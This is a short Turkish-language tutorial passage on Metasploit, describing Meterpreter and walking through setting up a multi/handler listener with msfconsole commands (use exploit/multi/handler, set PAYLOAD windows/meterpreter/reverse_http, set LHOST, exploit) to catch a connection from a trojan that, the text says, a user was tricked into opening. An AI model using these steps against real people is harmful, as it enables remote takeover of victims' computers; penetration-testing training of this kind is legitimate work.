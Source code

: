 ### Meterpreter Nedir
Meterpreter, ileri düzey bir Metasploit payload tipidir. Dinamik olarak hedef bilgisayarda DLL Enjeksiyon mantığı ile çalışır. Ağda, sahneleyici payloadları ve soketleri kullanarak yerel bilgisayarla haberleşir. Komut geçmişi, komut tamamlama vb. kabiliyetleri bulunur. Hedef bilgisayarda çalışan çok etkili bir komut satırıdır.

### Multi Handler Oluşturmak
Trojanımızı oluşturduk. Bir kullanıcıyı kandırdık ve bir şekilde trojanımızı kullanıcıya açtırdık. Bu aşamada açılan bağlantıyı kendi bilgisayarımızda dinlememiz gerek. Bunun için de `msfconsole` kullanacağız <br><br>
Terminale `msfconsole` yazarak programı açabiliriz
<br><br>

`use exploit/multi/handler` komutu ile gelen bağlantıları dinlememizi sağlayacak olan exploiti çalıştırabiliriz<br><br>
`set PAYLOAD windows/meterpreter/reverse_http` komutu ile **reverse_http** için oluşturduğumuz trojanı dinlemeye başlayabiliriz. <br><br>
`show options` ile ilgili konfigürasyonları görebiliriz. 

![Multi Handler Options](./assets/30-multi-handler-options.png)

Trojanımızı oluştururken set ettiğimiz `LHOST` ve `LPORT` 'u burada da set ediyoruz. `set LHOST <LHOST_IP>`
```
set LHOST 192.168.1.87
```
Ardından `exploit` diyerek exploiti çalıştırabiliriz. İlgili LHOST'da bir session (oturum/bağlantı isteği) oluşturulursa dinlemeye başlayacaktır.

![Multi Handler Exploit](./assets/31-multi-handler-exploit.png)
